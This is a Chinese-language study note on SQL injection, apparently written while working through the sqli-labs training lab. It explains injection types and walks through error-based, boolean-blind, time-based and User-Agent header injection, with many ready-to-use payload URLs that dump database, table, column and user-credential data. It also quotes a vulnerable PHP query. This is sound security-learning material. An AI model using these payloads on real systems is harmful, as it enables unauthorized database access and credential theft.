

<!-- more -->

# SQL注入

## SQL高级操作

- order by

​	后面跟数字，就是按第几列进行排序----可以确定**字段数**（列数）

- limit

​	两个参数:第一个是偏移量，第二个是数目

​	select* from employee limit 3, 7;//返回4-10行

​	select * from employee limit 3,1;//返回第4行

​	一个参数：

​	select * from employee limit 3;//返回前3行

- union select 


1. union select 查询的字段数必须和select查询的字段数匹配；----**猜解列数**：用and ... union select 1,2,3,4,5,6.…; 来猜解列数（字段数)，只有列数相等了，才能返回True；

2. **and 1=2** 可以否定掉前面的语句从而执行全新的语句

3. select1，2，3（可以知道列的位置）

   

4. 结合information_schema数据库（mysql）



## SQL注入分类

### 按注入点类型分类

#### 数字型注入

| **payload**                                    | **返回结果** |
| ---------------------------------------------- | ------------ |
| http://[靶机IP]/sqli-labs/Less-2/?id=1'        | 返回错误     |
| http://[靶机IP]/sqli-labs/Less-2/?id=1 and 1=1 | 运行正常     |
| http://[靶机IP]/sqli-labs/Less-2/?id=1 and 1=2 | 运行异常     |

#### 字符型注入

| **payload**                                        | **返回结果** |
| -------------------------------------------------- | ------------ |
| http://[靶机IP]/sqli-labs/Less-2/?id=1'            | 返回错误     |
| http://[靶机IP]/sqli-labs/Less-2/?id=1' and '1'='1 | 运行正常     |
| http://[靶机IP]/sqli-labs/Less-2/?id=1' and '1'='2 | 运行异常     |

#### 搜索型注入

- 此类注入点提交的 SQL 语句，其原型大致为: select * from 表名 where 字段 like '%关键字%'    
- 当我们提交注入参数为 keyword='and[查询条件] and %'=' ，则向数据库提交的SQL语句为: select * from 表名 where 字段 like '%' and[查询条件] and '%'='%'

### 按注入技术分类

- 基于布尔的盲注：可以根据返回页面判断条件真假的注入
- 基于时间的盲注：不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断
- 基于报错的注入：即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中
- 联合查询注入：可以使用union的情况下的注入
- 堆查询注入：同时执行多条语句的注入

## SQL基本注入流程

（以下根据基于联合查询的sql注入总结）

1. 判断是否存在注入点;

2. 判断字段数; order by

3. 判断字段回显位置;   and 1=2 union select 1,2,3 

4. 判断数据库信息;information_schema; database()

5. 查找数据库名;利用**group_concat()**

6. 查找数据库表;

7. 查找数据库表中所有字段以及字段值;**concat_ws()**

8. 猜解账号密码,登录管理员后台。

## SQL报错注入

报错注入一般需要具备两个前提条件：

Web应用程序未关闭数据库报错函数，对于一些SQL语句的错误直接回显在页面上；

后台未对一些具有报错功能的函数进行过滤。常用的报错功能函数包括extractvalue()、updatexml()、floor()、exp()等

### extractvalue()（mysql>=5.1.5）

作用：对XML文档进行查询，相当于在HTML文件中用标签查找元素。

语法： extractvalue(XML_document, XPath_string)

参数1： XML_document 是String格式，为XML文档对象的名称；

参数2： XPath_string (Xpath格式的字符串)，注入时可操作的地方。

报错原理：xml文档中查找字符位置是用 /xxx/xxx/xxx/…这种格式，如果写入其他格式就会报错，

并且会返回写入的非法格式内容，错误信息如： XPATH syntax error:'xxxxxxxx’ 。

注意：extractvalue() 函数所能显示的错误信息最大长度为32，如果错误信息超过了最大长度，有

可能导致显示不全。因此，有时需要借助limit来做分行显示。

实例: **select extractvalue(1,concat('~',user()))** ——主要是构造concat （user()可替换成别的payload）

### updatexml()（mysql>=5.1.5）

与前者类似

作用：改变文档中符合条件的节点的值。
语法：updatexml( xML_document, xPath string, new value )
参数1： XML document是String格式，为XML文档对象的名称
参数2：xPath string(x path格式的字符串)，注入时可操作的地方
参数3：new value， String格式，替换查找到的符合条件的数据
报错原理：同extractvalue()
实例:
mysql> **select updatexmI(1, concat('~',user()), 1);**
ERROR 1105 (HY000): XPATH syntax error: '~root@localhost'
注：该函数最大显示长度为32，超过长度可以配合substr、limit等函数来显示

### 报错函数汇总


### 实验

**Sqlilab-less-1**

使用以下payload获取网站当前所在数据库的库名：

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',database()))--+
```

使用以下payload获取数据库security的全部表名：

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='security')))--+
```

以上的变式：借助limit防止长度超过限制

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema='security' limit 0,1)))--+
//显示security库中的第1张表的名字

http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select table_name from information_schema.tables where table_schema='security' limit 1,1)))--+
//显示security库中的第2张表的名字
```

使用以下payload获取users表的全部字段名

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')))--+
```

显示具体数据

```
http://[靶机IP]/sqli-labs/Less-1/?id=1' and extractvalue(1,concat('~',(select concat_ws(',',id,username,password) from security.users limit 0,1)))--+
```

## SQL盲注

### 盲注常用函数


- if()

​	语法格式：if(expr1,expr2,expr3)：expr1为true则返回exprz,expr1为false则返回expr3.
 	注：仅MySQL支持。

- left()

​	语法格式：left(str.length)，如果str或length参数为NULL，则返回NULL值。
​	str：要提取子串的字符串。
​	length：正整数，指定将从左边返回的字符数。length 0或为负，则LEFT返回一个空字符串，length大于str	字符串的长度，则leftQ返回整个str字符串。

- length()

- substr(),substring()

  substr(str,pos,len),substring(str,pos,len)

  指定位置开始截取

- ascii(),ord():返回最左端的ascii值

- cast(),convert()

- sleep()

- benchmark(count,expr):让expr执行count次

### 布尔盲注

**实验**

盲猜网站当前所在数据库的库名长度，例如执行如下payload：

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and length(database())=7--+
```

盲猜网站当前所在数据库的库名字符串,逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr(database(),1,1)='s'--+
```

盲猜表名，逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e'--+
```

盲猜users表的全部字段名，逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr((select column_name from information_schema.columns where table_schema='security' and table_name='users' limit 0,1),1,1)='i'--+
```

盲猜表中数据，逐个盲猜

```
http://[靶机IP]/sqli-labs/Less-8/?id=1' and substr((select concat_ws(',',username,password) from security.users limit 0,1),1,1)='D'--+
```

### 时间盲注

**实验**

使用sleep()函数判断注入点类型：

```
http://[靶机IP]/sqli-labs/Less-9/?id=1 and sleep(5)--+
```

```
http://[靶机IP]/sqli-labs/Less-9/?id=1' and sleep(5)--+
```

根据延迟猜测数据库名长度：

```
http://[靶机IP]/sqli-labs/Less-9/?id=1' and if(length(database())=7,sleep(5),1)--+
```

后面方法基本类似于之前实验，只要构造if() 语句的第一个参数就好。

## http文件头注入

常见的HTTP Header注入类型包括Cookie注入、Referer注入、User-Agent注入、XFF注入等(注入

位置)。

**实验**

在原始HTTP请求包的头部字段User-Agent末尾添加单引号，即使用如下payload：

```
User-Agent:Mozilla/5.0......Firefox/46.0'
```

发现服务器端报错！

在原始HTTP请求包的头部字段User-Agent末尾添加如下符号，使用如下payload：

```
User-Agent:Mozilla/5.0......Firefox/46.0','','')#
```

服务器端未报错！

由此可以判断，目标网站在POST参数处存在字符型注入点。

注：如果在服务器端（靶机）上查看Less-18的php代码，会发现其中存在这样一段代码：

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

使用以下payload获取网站当前所在数据库的库名：

```
User-Agent:Mozilla/5.0......Firefox/46.0' and extractvalue(1,concat('~',database())),'','')#
```

显示结果为security。

使用以下payload获取数据库security的全部表名：

```
User-Agent:Mozilla/5.0......Firefox/46.0' and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='security'))),'','')#
```

以下步骤同之前类似。

